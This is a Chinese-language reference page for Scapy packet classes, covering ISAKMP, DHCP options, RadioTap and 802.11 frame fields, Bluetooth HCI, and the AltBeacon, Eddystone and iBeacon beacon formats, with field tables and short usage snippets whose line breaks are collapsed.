scapy.layers.isakmp.ISAKMPInternet Security Association and Key Management Protocol, 互联网安全协会和密钥管理协议, 用于在两个通信实体协商和建立安全相关, 交换密钥. ISAKMP定义了用于建立, 协商, 修改和删除安全关联的过程和数据包格式. SA包含执行各种网络安全服务所需的所有信息, 例如IP层服务（例如标头身份验证和有效载荷封装）, 传输或应用程序层服务或协商流量的自我保护. ISAKMP定义了用于交换密钥生成和身份验证数据的有效负载. 这些格式提供了用于传输密钥和认证数据的一致框架, 该框架独立于密钥生成技术, 加密算法和认证机制. ISAKMP与密钥交换协议不同, 是为了将安全关联管理（和密钥管理）的细节与密钥交换的细节清晰地分开. 可能有许多不同的密钥交换协议, 每种协议具有不同的安全性. 但是, 需要一个通用框架来同意SA属性的格式, 以及协商, 修改和删除SA. ISAKMP充当此通用框架.
init_cookie
resp_cookie
next_payload
| Value | Description | References |
|---|---|---|
| 0 | None. | RFC 2408 |
| 1 | Security Association. | RFC 2408 |
| 2 | Proposal. | RFC 2408 |
| 3 | Transform. | RFC 2408 |
| 4 | Key Exchange. | RFC 2408 |
| 5 | Identification. | RFC 2408 |
| 6 | Certificate. | RFC 2408 |
| 7 | Certificate Request. | RFC 2408 |
| 8 | Hash. | RFC 2408 |
| 9 | Signature. | RFC 2408 |
| 10 | Nonce. | RFC 2408 |
| 11 | Notification. | RFC 2408 |
| 12 | Delete. | RFC 2408 |
| 13 | Vendor ID. | RFC 2408 |
| 14 | ||
| 15 | SAK, SA KEK Payload. | RFC 3547 |
| 16 | SAT, SA TEK Payload. | RFC 3547 |
| 17 | Key Download. | RFC 3547 |
| 18 | Sequence Number. | RFC 3547 |
| 19 | Proof of Possession. | RFC 3547 |
| 20 | NAT-D, NAT Discovery. | RFC 3947 |
| 21 | NAT-OA, NAT Original Address. | RFC 3947 |
| 22-127 | ||
| 128-255 | Private use. |
version
Mjr version. 4 bits.
exch_type
flags
| Value | Description |
|---|---|
| 0 | None. |
| 1 | Base. |
| 2 | Identity protection. |
| 3 | Authentication only. |
| 4 | Aggressive. |
| 5 | Informational. |
| 6-31 | ISAKMP future use. |
| 32-239 | DOI specific use. |
| 240-255 | Private use. |
id
length
scapy.layers.dhcp.BOOTPBOOTP 及其扩展是动态主机配置协议（DHCP）的基础. 引导协议（BOOTP）是一种基于 UDP/IP 的协议. 这种协议允许正在启动的主机动态配置而无需用户监督. BOOTP 主要用于客户机从服务器获得自己的 IP 地址, 服务器的 IP 地址以及启动映象文件名. 此外通过 BOOTP, 其它一些装置信息, 如本地子网掩码、本地时间偏移量、默认路由器地址和各种 Internet 服务器地址, 都能与客户机交流.
op
htype
hlen
hops
xid
secs
flags
ciaddr
yiaddr
siaddr
giaddr
chaddr
sname
file
options
scapy.layers.dhcp.DHCPDynamic Host Configuration Protocol, 动态主机设置协议是一个用于局域网的网络协议, 位于OSI模型的应用层, 使用UDP协议工作, 主要有两个用途: 用于内部网或网络服务供应商自动分配IP地址给用户 用于内部网管理员对所有电脑作中央管理
options
例:DHCP(options=[(Option, Value)])
Option取值:
给定的值必须为指定类型, NoneType不用给值默认为True
pad: NoneType
subnet_mask: IPField
time_zone: NoneType
router: IPField
time_server: IPField
IEN_name_server: IPField
name_server: IPField
log_server: IPField
cookie_server: IPField
lpr_server: IPField
impress-servers: IPField
resource-location-servers: IPField
hostname: NoneType
boot-size: ShortField
dump_path: NoneType
domain: NoneType
swap-server: IPField
root_disk_path: NoneType
extensions-path: NoneType
ip-forwarding: ByteField
non-local-source-routing: ByteField
policy-filter: IPField
max_dgram_reass_size: NoneType
default_ttl: NoneType
pmtu_timeout: NoneType
path-mtu-plateau-table: ShortField
interface-mtu: ShortField
all-subnets-local: ByteField
broadcast_address: IPField
perform-mask-discovery: ByteField
mask-supplier: ByteField
router-discovery: ByteField
router-solicitation-address: IPField
trailer-encapsulation: ByteField
arp_cache_timeout: NoneType
ether_or_dot3: NoneType
tcp_ttl: NoneType
tcp_keepalive_interval: NoneType
tcp_keepalive_garbage: NoneType
NIS_domain: NoneType
NIS_server: IPField
NTP_server: IPField
vendor_specific: NoneType
NetBIOS_server: IPField
NetBIOS_dist_server: IPField
static-routes: ByteField
netbios-scope: NoneType
font-servers: IPField
x-display-manager: IPField
requested_addr: IPField
lease_time: IntField
dhcp-option-overload: ByteField
重载“sname”或“file”
message-type: ByteEnumField
DHCP消息类型
Value取值:
discover -DHCP客户端在网络上发送DHCP发现广播, 以查找DHCP服务器. 如果没有来自DHCP服务器的响应, 则客户端将为其分配一个自动专用IPv4地址（APIPA）
offer
request
decline
ack
nak
release
inform
force_renew
lease_query
lease_unassigne
lease_unknown
lease_active
server_id: IPField
param_req_list: FieldListField
error_message: NoneType
max_dhcp_size: ShortField
renewal_time: IntField
rebinding_time: IntField
vendor_class_id: NoneType
client_id: NoneType
nwip-domain-name: NoneType
NISplus_domain: NoneType
NISplus_server: IPField
boot-file-name: StrField
mobile-ip-home-agent: IPField
SMTP_server: IPField
POP3_server: IPField
NNTP_server: IPField
WWW_server: IPField
Finger_server: IPField
IRC_server: IPField
StreetTalk_server: IPField
StreetTalk_Dir_Assistance: NoneType
client_FQDN: NoneType
relay_agent_Information: NoneType
client-last-transaction-time: IntField
associated-ip: IPField
subnet-selection: IPField
end: NoneType
scapy.layers.dot11.RadioTap发送和接收802.11标准帧, 在发送802.11帧之前, 网络驱动程序在802.11帧之前添加radiotap报头;一旦网卡接收到无线帧, 网络驱动程序就会通知MAC层这个帧包含了radiotap报头,当无线网络接口处monitor模式时,内核会生成一个名为RadioTap的数据添加在IEEE802.11数据帧(MPDU)的前面,该Radiotap记录了热点的信息,如信号强度、MPDU帧信息等信息. 意思就是在正常的IEEE802.11数据帧前面,核又额外给你加了一块RadioTap类型的数据,这块数据记录了一些无线网的属性.
version
pad
len
notdecoded
present
Present (32 bits)
数据段掩码, 小端字节序
位置对应
TSFT
Flags
结构: 8 bits flags
单位: bitmap
变量名: Flags
| 标志 | 含义 |
|---|---|
| 0x01 | 在CFP中发送/接收 |
| 0x02 | 用简短的序言发送/接收 |
| 0x04 | 使用WEP加密发送/接收 |
| 0x08 | 碎片发送/接收 |
| 0x10 | 框架包括FCS |
| 0x20 | 帧在802.11标头和有效负载之间填充 (到32位边界) |
| 0x40 | 帧未通过FCS检查 |
| 0x80 | 使用的帧短保护间隔 (HT) |
Rate
Channel
结构: 16 bits frequency, 16 bits flags
单位: MHz, bitmap
Tx/Rx频率(MHz), 后跟标志
变量名: ChannelFrequency
变量名: ChannelFlags
| 标志 | 含义 |
|---|---|
| 0x0010 | 涡轮通道 |
| 0x0020 | CCK通道 |
| 0x0040 | OFDM信道 |
| 0x0080 | 2 GHz频谱通道 |
| 0x0100 | 5 GHz频谱通道 |
| 0x0200 | 仅允许被动扫描 |
| 0x0400 | 动态CCK-OFDM信道 |
| 0x0800 | GFSK通道 (FHSS PHY) |
FHSS
dBm_AntSignal
dBm_AntNoise
Lock_Quality
TX_Attenuation
dB_TX_Attenuation
dBm_TX_Power
Antenna
dB_AntSignal
dB_AntNoise
RXFlags
结构: 16 bits
接收帧的属性
变量名: RXFlags
| 值 | 含义 |
|---|---|
| 0x0001 | 保留(FCS失败, 但这是常规标志) |
| 0x0002 | PLCP CRC检查失败 |
| 0xfffc | 保留以备将来扩展 |
TXFlags
b17
b18
ChannelPlus
MCS
结构: 8 bits known, 8 bits flags, 8 bits mcs
变量名: MCS_index
变量名: knownMCS
| 值 | 含义 |
|---|---|
| 0x01 | 带宽已知 |
| 0x02 | mcs索引已知(在mcs部分的字段中) |
| 0x04 | guard 间隔已知 |
| 0x08 | HT格式已知 |
| 0x10 | FEC类型已知 |
| 0x20 | STBC已知 |
| 0x40 | Ness 已知(扩展空间流的数量) |
| 0x80 | Ness数据-扩展空间流数量的1 bit(MSB) |
flags
| 值 | 含义 |
|---|---|
| 0x03 | 带宽 (0: 20, 1: 40, 2: 20L, 3: 20U) |
| 0x04 | guard 间隔 - 0: long GI, 1: short GI |
| 0x08 | HT 格式 - 0: mixed, 1: greenfield |
| 0x10 | FEC 类型 - 0: BCC, 1: LDPC |
| 0x60 | STBC流的数量 |
| 0x80 | Ness-bit 扩展空间流数量的0 bit(LSB) |
A_MPDU
A-MPDU status
结构: 32 bits reference number, 16 bits flags, 8 bits delimiter CRC value, 8 bits reserved
该字段的存在表明帧是作为a-MPDU的一部分接收的. reference number由捕获设备生成, 并且在A-MPDU的每个子帧中都是相同的. 由于捕获设备可能能够捕获多个通道, 或者可以合并来多个(并发)捕获的数据, 所以不能保证reference number在不同通道之间是惟一的. 因此, 应用程序应该使用通道信息和reference number来识别属于同一A-MPDU的子帧
变量名: A_MPDU_ref
变量名: A_MPDU_flags
| 值 | 含义 |
|---|---|
| 0x0001 | 驱动程序报告0长度子帧 |
| 0x0002 | 帧是长度为0的子帧(仅当设置为0x0001时有效) |
| 0x0004 | 已知最后一个子帧(应为A-MPDU中的所有子帧设置) |
| 0x0008 | 这个帧是最后一个子帧 |
| 0x0010 | 定界符CRC错误 |
| 0x0020 | 分隔符CRC值已知: 分隔符CRC值字段有效 |
| 0x0040 | EOF值 |
| 0x0080 | EOF值已知 |
| 0xff00 | 保留 |
VHT
timestamp
结构: 64 bits timestamp, 16 bits accuracy, 8 bits unit/position, 8 bits flags
变量名: ts_accuracy
变量名: ts_position
| value | sampling position |
|---|---|
| 0 | first bit (or symbol containing it) of MPDU - matches TSFT field |
| 1 | signal acquisition at start of PLCP |
| 2 | end of PPDU |
| 3 | end of MPDU (after FCS) |
| 4-14 | reserved |
| 15 | unknown or vendor/OOB defined |
变量名: ts_flags
| 值 | 含义 |
|---|---|
| 0x01 | 32位计数器(高32位未使用) |
| 0x02 | accuracy已知 |
| 0xFC | 保留 |
HE
结构: 16 bits data1, data2, data3, data4, data5, data6
该字段的存在指示使用HE PHY接收或发送了该帧, 此字段包含的数据大部分来自所有HE传输所共有的HE-SIG-A部分, 但是某些数据也可能会被计算 (例如, 当包含在HE_TRIG类型帧的传输时, 某些参数不包含在HE-SIG-A, 但由触发帧确定) .
但是, 对于HE_MU格式的PPDU, 它包含适用于PSDU编码的数据, 如果需要, 还包含HE-MU字段中包含的有关MU传输的更详细的信息, 在许多情况下, 不需要该字段, 因为有关已捕获的单个户的数据已在此处进行了编码.
对于MU传输, 在这种情况下, HE-MU-other-user 字段也可能出现一次或多次, 以捕获无法捕获其数据的额外用户. 如果为一个以上的用户捕获了数据, 则必须将多个数据包写入radiotap获中
变量名: he_data1
| 值 | 含义 |
|---|---|
| 0x0003 | HE PPDU格式：0=HE_SU, 1=HE_EXT_SU, 2=HE_MU, 3=HE_TRIG |
| 0x0004 | BSS颜色已知 |
| 0x0008 | 光束变化已知 |
| 0x0010 | UL/DL已知 |
| 0x0020 | 数据MCS已知 |
| 0x0040 | 数据DCM已知 |
| 0x0080 | 编码已知 |
| 0x0100 | LDPC额外符号段已知 |
| 0x0200 | STBC已知 |
| 0x0400 | 空间复用已知 (空间复用 1 for HE_TRIG format) |
| 0x0800 | 空间复用2已知 (HE_TRIG格式) , 已知STA-ID (HE_MU格式) |
| 0x1000 | 空间重用3已知 (HE_TRIG格式) |
| 0x2000 | 空间重用4已知 (HE_TRIG格式) |
| 0x4000 | 数据BW/RU分配已知 |
| 0x8000 | 多普勒已知 |
变量名: he_data2
| 值 | 含义 |
|---|---|
| 0x0001 | pri/sec 80 MHz已知 |
| 0x0002 | 地理标志 |
| 0x0004 | 的LTF符号数已知 |
| 0x0008 | Pre-FEC填充因子已知 |
| 0x0010 | TxBF已知 |
| 0x0020 | PE Disambiguity已知 |
| 0x0040 | TXOP已知 |
| 0x0080 | 中间码周期已知 |
| 0x3f00 | RU分配偏移 |
| 0x4000 | RU分配偏移已知 |
| 0x8000 | pri/sec 80 MHz (主要= 0, 次要= 1) |
变量名: he_data3
| 值 | 含义 |
|---|---|
| 0x003f | BSS颜色 |
| 0x0040 | 光束变化 |
| 0x0080 | UL/DL |
| 0x0f00 | 数据MCS (对于HE_MU格式, 不是来自HE-SIG-A的SIG-B MCS) |
| 0x1000 | 数据DCM (请参阅数据MCS) |
| 0x2000 | 编码 (0=BCC, 1=LDPC) |
| 0x4000 | LDPC额外符号段 |
| 0x8000 | 空时分组码 |
变量名: he_data4 值 | HE_SU和HE_EXT_SU格式的PPDU 0x000f | 空间复用 0xfff0 | (保留)
值 | HE_TRIG格式PPDU 0x000f | 空间复用1 0x00f0 | 空间重用2 0x0f00 | 空间重用3 0xf000 | 空间重用4
值 | HE_MU格式PPDU 0x000f | 空间复用 0x7ff0 | 为其捕获数据的用户的STA-ID 0x8000 | (保留)
变量名: he_data5
| 值 | 含义 |
|---|---|
| 0x000f | 数据带宽/RU分配 (0: 20、1: 40、2: 80、3: 160/80+80、4: 26-tone RU, 5: 52-tone RU, 6: 106-tone RU, 7: 242-tone RU, 8: 484-tone RU, 9: 996-tone RU, 10: 2x996-tone RU) |
| 0x0030 | GI (0: 0.8us, 1: 1.6us, 2: 3.2us, 3: 保留) |
| 0x00c0 | LTF符号大小 (0: 未知, 1: 1x, 2: 2x, 3: 4x) |
| 0x0700 | LTF符号的数量 (0: 1x, 1: 2x, 2: 4x, 3: 6x, 4: 8x, 5-7: 保留) |
| 0x0800 | (保留) |
| 0x3000 | Pre-FEC的填充因子 |
| 0x4000 | TxBF |
| 0x8000 | PE Disambiguity |
变量名: he_data6
| 值 | 含义 |
|---|---|
| 0x000f | NSTS (时空流的实际数量, 0: 未知, 1: 1, 依此类推) |
| 0x0010 | 多普勒值 |
| 0x00e0 | (保留) |
| 0x7f00 | TXOP值 |
| 0x8000 | 中间码周期 (0: 10, 1: 20) |
HE_MU
结构
该字段包含与常规HE字段中尚未捕获的HE_MU类型的PPDU相关的数据. 这是公共数据(来自HE-SIG-A和HE-SIG-B), 每个用户的数据可以在HE-MU-其他用户字段中捕获
变量名: RU_channel1, RU_channel2
Channel 1 /Channel 2使用情况和RU字节映射
数组中的RU八位字节(“RU_channel1”和“RU_channel2”)表示表28-26中的RU分配索引(“RU分配子字段”).
Channel 1的tones取决于known字段
| RU idx | bw=0 (20 MHz) | bw=1 (40 MHz) | bw=2 (80 MHz) | bw=3 (160 MHz) |
|---|---|---|---|---|
| RU[0] | -122:122 | -244:-3 | -500:-259 | -1012:-771 |
| RU[1] | / | / | 17:258 | -495:-254 |
| RU[2] | / | / | / | 12:253 |
| RU[3] | / | / | / | 529:770 |
| Center 26-tone | / | / | -16:-4, 4:16 | -528:-516, -508:-496 |
Channel 2的tones取决于known字段
| RU idx | bw=0 (20 MHz) | bw=1 (40 MHz) | bw=2 (80 MHz) | bw=3 (160 MHz) |
|---|---|---|---|---|
| RU[0] | / | 3:244 | -258:-17 | -770:529 |
| RU[1] | / | / | 259:500 | -253:-12 |
| RU[2] | / | / | / | 254:495 |
| RU[3] | / | / | / | 771:1012 |
| Center 26-tone | / | / | / | 496:508, 516:528 |
变量名: hemu_flags1, hemu_flags2
Flags 1
| 值 | 含义 |
|---|---|
| 0x000f | SIG-B MCS (来自SIG-A) |
| 0x0010 | SIG-B MCS已知 |
| 0x0020 | SIG-B DCM (来自SIG-A) |
| 0x0040 | 已知SIG-B DCM |
| 0x0080 | (Channel 2) 已知Center 26-tone RU bit |
| 0x0100 | 已知Channel 1 RUs (取决于带宽) |
| 0x0200 | 已知Channel 2 RUs (取决于带宽) |
| 0x0c00 | (保留) |
| 0x1000 | (Channel 1) 已知Center 26-tone RU bit |
| 0x2000 | (Channel 1) Center 26-tone RU值 |
| 0x4000 | 已知SIG-B Compression |
| 0x8000 | 已知HE-SIG-B Symbols/MU-MIMO Users的# |
Flags 2
| 值 | 含义 |
|---|---|
| 0x0003 | HE-SIG-A中Bandwidth字段中的bandwidth (0-20 MHz, …, 3-160 / 80 + 80 MHz) |
| 0x0004 | HE-SIG-A中来自Bandwidth字段的bandwidth |
| 0x0008 | SIG-A的SIG-B compression |
| 0x00f0 | # of HE-SIG-B Symbols - 1 or # of MU-MIMO Users - 1 from SIG-A |
| 0x0300 | HE-SIG-A中Bandwidth字段中的前导码打孔(0: 非打孔, 1: 打孔的次要20 MHz(主80兆赫, 若适用), 2:打孔, 但存在主40 MHz(主频80兆赫, 若适用)) |
| 0x0400 | HE-SIG-A中Bandwidth字段中的前导码打孔 |
| 0x0800 | (Channel 2) Center 26-tone RU值 |
| 0xf000 | (保留) |
HE_MU_other_user
结构:
此字段包含来自SIG-B的per-user字段的数据, 用于可能尚未捕获其数据的额外用户. 通常不需要此字段；如果捕获了HE_MU PPDU, 则通常仅捕获许多用户之一, 在这种情况下, 所有数据可以在HE和HE-MU字段中进行编码.如果可以捕获更多的SIG-B, 则此字段允许在radiotap中捕获数据数据. 对于已经捕获到数据的用户, 可以但不必具有此字段. 请注意, MCS/DCM/etc. 捕数据的配置已经在常规HE字段中进行了编码, 对于SIG-B, 它是HE-MU字段的一部分.
变量名: hemuou_per_user_1
| 值 | 含义 |
|---|---|
| 0x7fff | HE-SIG-B用户字段的B0-B14 |
| 0x8000 | 保留 |
变量名: hemuou_per_user_2
| 值 | 含义 |
|---|---|
| 0x003f | 符合规范的HE-SIG-B用户字段的B15-B20 |
| 0xffc0 | 保留 |
变量名: hemuou_per_user_position
变量名: hemuou_per_user_known
| 值 | 含义 |
|---|---|
| 0x01 | 用户字段位置已知 |
| 0x02 | 用户字段位置已知 |
| 0x04 | 用户字段位置已知 |
| 0x08 | 已知发射波束成形(B14, 仅适用于非MU-MIMO) |
| 0x10 | 已知空间配置(仅B11-B14, 仅适用于MU-MIMO) |
| 0x20 | 已知MCS(B15-18) |
| 0x40 | 已知DCM(B19) |
| 0x80 | 已知编码(B20) |
zero_length_psdu
0-length-PSDU
结构: 8 bits zero_length_psdu
此字段的存在指示此PPDU中没有捕获PSDU, 也没有捕获到PSDU, 只有PHY数据有效, 并且radiotap头后面没有802.11头.
类型值含义
| 类型值 | 含义 |
|---|---|
| 0 | 探测PPDU |
| 1 | 未捕获数据(例如, 多用户PPDU) |
| 0xff | 供应商指定 |
L_SIG
结构: 16bits data1, data2
变量名: lsig_data1
| 值 | 含义 |
|---|---|
| 0x0001 | 速度已知 |
| 0x0002 | 长度已知 |
| 0xfffc | (保留) |
变量名: lsig_length
变量名: lsig_rate
b28
RadiotapNS
VendorNS
Ext
当present中未设置为1时, 则忽略对应数据的值
例:
xxxxxxxxxx>>> [v for v in RadioTap(present=1).present.names]['TSFT','Flags','Rate','Channel',...'VendorNS','Ext']>>> a = RadioTap(Rate=20)>>> a.show()###[ RadioTap dummy ]###version= 0pad= 0len= Nonepresent= Nonenotdecoded= ''>>> a.present='Rate+HE'>>> a.show()###[ RadioTap dummy ]###version= 0pad= 0len= Nonepresent= Rate+HERate= 20he_data1= 0he_data2= 0he_data3= 0he_data4= 0he_data5= 0he_data6= 0notdecoded= ''
scapy.layers.dot11.Dot11无线局域网通用的标准
变量名: proto
变量名: type
变量名: subtype
有许多不同种类的管理、控制和数据帧.因此需要4位的子类型字段来区分它们
| Type Value(B3..B2) | Type Description | Subtype Value (B7..b4) | Subtype Description |
|---|---|---|---|
| 00 | Management | 0000 | Association Request |
| 00 | Management | 0001 | Association Response |
| 00 | Management | 0010 | Reassociation Request |
| 00 | Management | 0011 | Reassociation Response |
| 00 | Management | 0100 | Probe Request |
| 00 | Management | 0101 | Probe Response |
| 00 | Management | 0110 | Timing Advertisement |
| 00 | Management | 0111 | Reserved |
| 00 | Management | 1000 | Beacon |
| 00 | Management | 1001 | ATIM |
| 00 | Management | 1010 | Disassociation |
| 00 | Management | 1011 | Authentication |
| 00 | Management | 1100 | Deauthentication |
| 00 | Management | 1101 | Action |
| 00 | Management | 1110 | Action No Ack (NACK) |
| 00 | Management | 1111 | Reserved |
| 01 | Control | 0000-0001 | Reserved |
| 01 | Control | 0010 | Trigger |
| 01 | Control | 0100 | Beamforming Report Poll |
| 01 | Control | 0101 | VHT/HE NDP Announcement |
| 01 | Control | 0110 | Control Frame Extension |
| 01 | Control | 0111 | Control Wrapper |
| 01 | Control | 1000 | Block Ack Request (BAR) |
| 01 | Control | 1001 | Block Ack (BA) |
| 01 | Control | 1010 | PS-Poll |
| 01 | Control | 1011 | RTS |
| 01 | Control | 1100 | CTS |
| 01 | Control | 1101 | ACK |
| 01 | Control | 1110 | CF-End |
| 01 | Control | 1111 | CF-End + CF-ACK |
| 10 | Data | 0000 | Data |
| 10 | Data | 0001 | Data + CF-ACK |
| 10 | Data | 0010 | Data + CF-Poll |
| 10 | Data | 0011 | Data + CF-ACK + CF-Poll |
| 10 | Data | 0100 | Null (no data) |
| 10 | Data | 0101 | CF-ACK (no data) |
| 10 | Data | 0110 | CF-Poll (no data) |
| 10 | Data | 0111 | CF-ACK + CF-Poll (no data) |
| 10 | Data | 1000 | QoS Data |
| 10 | Data | 1001 | QoS Data + CF-ACK |
| 10 | Data | 1010 | QoS Data + CF-Poll |
| 10 | Data | 1011 | QoS Data + CF-ACK + CF-Poll |
| 10 | Data | 1100 | QoS Null (no data) |
| 10 | Data | 1101 | Reserved |
| 10 | Data | 1110 | QoS CF-Poll (no data) |
| 10 | Data | 1111 | QoS CF-ACK + CF-Poll (no data) |
| 11 | Extension | 0000 | DMG Beacon |
| 11 | Extension | 0001-1111 | Reserved |
变量名: FCfield
取值:
"to-DS"
"from-DS"
"MF"
"retry"
"pw-mgt"
"MD"
"protected"
"order"
变量名: ID
变量名: SC
变量名: addr1, add2, add3, add4
| To DS | From DS | Address 1 | Address 2 | Address 3 | Address 4 | 含义 |
|---|---|---|---|---|---|---|
| 0 | 0 | 接收端: 终点地址 | 发送端: 源点地址 | 基站集ID | Not used | 控制帧或管理帧 |
| 0 | 1 | 接收端: 终点地址 | 发送端: 基站集ID | 源地址 | Not used | WiFi无线路由器到客户端 |
| 1 | 0 | 接收端: 基站集ID | 发送端: 源点地址 | 终点地址 | Not used | 客户端到WiFi无线路由器 |
| 1 | 1 | 接收端 | 发送端 | 终点地址 | 源点地址 | 使用WDS–无线分配系统(例如网桥, 网状AP, 中继器) |
scapy.layers.dot11.Dot11Beacon信标帧是基于IEEE 802.11的WLAN 中的管理帧之一.它包含有关网络的所有信息.信标帧是定期发送的, 它们用于宣告无线局域网的存在并同步服务集的成员.
timestamp
beacon_interval
cap
取值:
short-slot
DSSS-OFDM
ESS
IBSS
CFP
CFP-req
privacy
short-preamble
PBCC
agility
res8
res9
res11
res12
res14
res15
scapy.layers.dot11.Dot11Elt802.11 information elements
ID
字段名
取值: {0: "SSID",1: "Rates",2: "FHset",3: "DSset",4: "CFset",5: "TIM",6: "IBSSset",7: "Country",10: "Request",16: "challenge",33: "PowerCapability",36:"Channels"42: "ERPinfo",45: "HTCapabilities",46: "QoSCapability",47: "ERPinfo",48: "RSNinfo",50: "ESRates",52: "PowerConstraint",61: "HTinfo",68: "reserved",107:"Interworking"127: "ExtendendCapatibilities",191: "VHTCapabilities",221: "vendor"}
"SSID"
"Rates"
Supported Rates
无线局域网的几个数据速率已经标准化.支持的速率信息元素允许802.11网络指定它支持的数据速率.当移动台试图加入网络时, 它们检查网络中使用的数据速率.有些费率是强制性的, 须由移动支持, 而其他费率是可选的.
Dot11EltRates: scapy.layers.dot11.Dot11EltRates

"FHset"
FH Parameter Set

Dwell Time
Hop Set
Hop Pattern
Hop Indexs
"DSset"
"CFset"
"TIM"
Traffic Indication Map (TIM)
AP缓冲帧用于移动端在低功率模式下睡眠. AP定期尝试将缓冲帧发送到睡眠状态下的移动端. 这样安排的一个实际原因是, 给发送端供电比简单地打开接收端更耗电, 但是802.11的设计者想了池供电的移动端, 为了延长低功耗设备的电池寿命, 决定将缓冲帧定期发送到移动端

DTIM Count
DTIM Period
Bitmap Control and Partial Virtual Bitmap
"IBSSset"
"Country"
Country String (3 bytes)
First Channel Number (1 byte)
Number of Channels (1 byte)
Maximum Transmit Power (1 byte)
Pad (1 byte; optional)
"Request"
"challenge"
"PowerCapability"
"Channels"
"ERPinfo"
ERP information
802.11g定义了扩展速率PHY (extended rate PHY, ERP).为了提供向后兼容性, 定义了ERP信息元素, 如图所示.在它的第一次迭代中, 它是一个字节中的三个位标志
Non-ERP present
Use Protection
Barker Preamble Mode

"HTCapabilities"
"QoSCapability"
"ERPinfo"
"RSNinfo"
Robust Security Network
随着802.11i中显著的安全增强, 有必要开发一种在端之间通信安全信息的方法.主要工具是健壮的安全网络(RSN)信息元素, 如图所示.有几个可变的组件, 在某些情况下, RSN信息元素能会遇信息元素大小超过头部255字节的限制.
Version
Group cipher suite
| OUI | Suite Type | Definition |
|---|---|---|
| 00-0F-AC (802.11) | 0 | Use the group cipher suite (only valid for pairwise ciphers) |
| 00-0F-AC | 1 | WEP-40 |
| 00-0F-AC | 2 | TKIP |
| 00-0F-AC | 3 | Reserved |
| 00-0F-AC | 4 | CCMP[a] |
| 00-0F-AC | 5 | WEP-104 |
| Vendor OUI | Any value | Defined by vendor |
Pairwise Cipher Suites (count + list)
Authentication and Key Management (AKM) suites (count + list)
| OUI | Suite type | Authentication | Key management |
|---|---|---|---|
| 00-0F-AC | 1 | 802.1X or PMK caching | Key derivation from preshared master key, as described in Chapter 7 |
| 00-0F-AC | 2 | Pre-shared key | Key derivation from pre-shared key, as described in Chapter 7 |
| Vendor OUI | Any | Vendor-specific | Vendor-specific |
RSN Capabilties
这个双字节字段由四个标记组成, 这些标记用于描述发送器的能力, 后面是必须设置为零的保留位
Pre-authentication
No Pairwise
Pairwise Replay Counter and Group Replay Counter
PMK list (count + list)

"ESRates"
"PowerConstraint"
"HTinfo"
"reserved"
"Interworking"
"ExtendendCapatibilities"
"VHTCapabilities"
"vendor"
len
info
scapy.layers.bluetooth.BluetoothHCISocket这是与蓝牙控制器通信的“基础”级接口. 所有的东西都是建立在它上面的, 这代表了你可以用普通的蓝牙硬件得到的最接近物理层的东西.
iface
如下iface应等于0, BluetoothHCISocket(0)
xxxxxxxxxx# hcitool devDevices:hci0 AA:AA:AA:AA:AA:AA
scapy.layers.bluetooth.HCI_HdrHCI header
scapy.layers.bluetooth.HCI_Command_HdrHCI Command header
scapy.layers.bluetooth.HCI_Cmd_LE_Set_Scan_ParametersLE设置扫描参数
type
interval
scapy.layers.bluetooth.HCI_Cmd_LE_Set_Scan_EnableLE启用扫描
enable
filter_dups
scapy.layers.bluetooth.EIR_HdrEIR Header
type
取值(可填数字或字符串)
len
scapy.layers.bluetooth.HCI_LE_Meta_Advertising_Reporttype
https://www.bluetooth.com/zh-cn/specifications/assigned-numbers/generic-access-profile/
0: conn_und
1
2
3
4: scan_rsp
5
6
atype
addr
len
data
rssi
RSSI代表接收信号强度指示器. 它是在接收设备上看到的信标信号的强度
| RSSI | Range(meters) |
|---|---|
| -115 dBm | 2 |
| -84 dBm | 4 |
| -81 dBm | 10 |
| -77 dBm | 20 |
| -72 dBm | 30 |
| -69 dBm | 40 |
| -65 dBm | 60 |
| -59 dBm | 70 |
单位: 米
MP: Measured Power测量功率
N: 常数取决于环境因素,范围2-4
scapy.layers.bluetooth.HCI_LE_Meta_Advertising_Reportslen
reports
scapy.contrib.altbeacon.AltBeaconAltBeacon是一个协议规范, 为邻近信标广告定义了消息格式. 设备发送AltBeacon邻近信标广告, 用于发信号通知其邻近的接收器. 发出的消息的内容包含接收设备可用于标识信标并计算其与信标的相对距离的信息. 接收设备可以将该信息用作上下文触发来执行过程并实现与靠近发射信标有关的行为.
用法
xxxxxxxxxx# 加载AltBeaconload_contrib('altbeacon')
ab = AltBeacon( id1='2f234454-cf6d-4a0f-adf2-f4911ba9ffa6', id2=1, id3=2, tx_power=-59,)
bt.sr(ab.build_set_advertising_data())header
id1
组织id
UUID
xxxxxxxxxxUUID = time-low "-" time-mid "-"time-high-and-version "-"clock-seq-and-reservedclock-seq-low "-" nodetime-low = 4hexOctettime-mid = 2hexOctettime-high-and-version = 2hexOctetclock-seq-and-reserved = hexOctetclock-seq-low = hexOctetnode = 6hexOctetField Data Type Octet Notetime_low unsigned 32 bit integer 0-3 The low field of the timestamptime_mid unsigned 16 bit integer 4-5 The middle field of the timestamptime_hi_and_version unsigned 16 bit integer 6-7 The high field of the timestamp multiplexed with the version numberclock_seq_hi_and_reserved unsigned 8 bit integer 8 The high field of the clock sequence multiplexed with the variantclock_seq_low unsigned 8 bit integer 9 The low field of the clock sequencenode unsigned 48 bit integer 10-15 The spatially unique node identifier
id2
id3
tx_power
mfg_reserved
classscapy.contrib.eddystone.Eddystone_URLEddystone-URL帧使用压缩的编码格式广播URL, 以使其更适合有限的广告包. 一旦被解码, 该URL可以被任何能够访问互联网的客户端使用. 例如, 如果Eddystone-URL信标要广播URL https://goo.gl/Aq18zF, 则接收到此数据包的任何客户端都可以选择访问该URL
用法
xxxxxxxxxx# 加载Eddystoneload_contrib('eddystone')# Eddystone_URL.from_url(): 通过给定的URL返回一个Eddystone_URL对象## build_set_advertising_data(): 生成能够被BLE发送的HCI_Cmd_LE_Set_Advertising_Databt.sr(Eddystone_URL.from_url('https://scapy.net').build_set_advertising_data())
tx_power
url_scheme
url
scapy.contrib.ibeacon.Apple_BLE_Submessage苹果基础子消息
scapy.contrib.ibeacon.IBeacon_DataiBeacon广播数据帧。在Apple_BLE_Submessage上创建。
用法
xxxxxxxxxx#加载ibeaconload_contrib('ibeacon')p = Apple_BLE_Submessage()/IBeacon_Data(uuid='fb0b57a2-8228-44cd-913a-94a122ba1206',major=1, minor=2)# build_set_advertising_data: 传入Apple_BLE_Submessage或Apple_BLE_Frame返回能被BLE发送的HCI_Cmd_LE_Set_Advertising_Databt.sr(p.build_set_advertising_data())
uuid
组织id
UUID
